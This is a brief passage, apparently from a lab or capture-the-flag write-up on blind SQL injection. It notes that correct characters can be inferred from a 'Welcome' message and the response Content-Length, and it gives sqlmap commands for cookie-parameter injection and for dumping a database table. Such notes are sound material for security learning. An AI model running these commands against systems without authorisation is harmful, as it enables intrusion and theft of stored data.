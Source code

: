 ![image.png](image%201.png)

1. Determine the correct character by studying the Content-Length

![Use "Welcome" and Length to determine the success in this case!](image%202.png)

Use "Welcome" and Length to determine the success in this case!

### SQL Map

- $ python3 sqlmap.py -r <Path_to_Target_File> --level=2
# --level=2 meant for cookie parameter injection.
- $ python3 sqlmap.py -r <Path_to_Target_File> -T <Table_name> --dump